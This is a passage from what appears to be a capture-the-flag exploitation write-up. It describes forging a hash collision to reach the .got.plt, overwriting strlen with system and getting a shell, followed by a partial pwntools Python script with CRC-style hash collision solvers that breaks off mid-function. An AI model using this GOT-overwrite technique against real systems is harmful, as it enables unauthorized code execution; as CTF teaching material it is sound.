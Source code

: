 Also, we can craft a string which has same address as `.got.plt`, then we can patch `strlen` to `system`, and clear `allocated_mem`, finally we can get shell.

```python
from pwn import *
import time

context.log_level = 'debug'


def hs(s):
    res = 2**32 - 1
    for x in s:
        res ^= x
        for _ in range(8):
            t = res & 1
            r = 0
            for k in range(32):
                if 0xEDB88320 >> k & 1:
                    r ^= t << k
            res = (res >> 1) ^ r
    return res ^ (2**32 - 1)


def hsint(v):
    return hs(v.to_bytes(8, 'little')) ^ hs(b'\0' * 8)


def solvehs(k, x):
    g = hsint(k << 44) ^ x ^ hs(b'\0' * 8)
    t = []
    for i in range(32):
        t.append(hsint(1 << i + 12))
    s = []
    for i in range(32):
        u = 0
        for j in range(32):
            u |= (t[j] >> i & 1) << j
        u |= (g >> i & 1) << 32
        s.append(u)
    for i in range(32):
        t = i
        while not (s[t] >> i & 1):
            t += 1
        s[i], s[t] = s[t], s[i]
        for j in range(32):
            if i != j and (s[j] >> i & 1):
                s[j] ^= s[i]
    r = 0
    for i in range(32):
        r += s[i] >> 32 << i
    return r


def solvehs2(x):
    LEN = 16
    bs = hs(b'0' * LEN)
    g = x ^ bs
    t = []
    for i in range(LEN * 3):
        v = list(b'0' * LEN)
        v[i // 3] ^= 1 << (i % 3)
        t.append(hs(bytes(v)) ^ bs)
    s = []
```
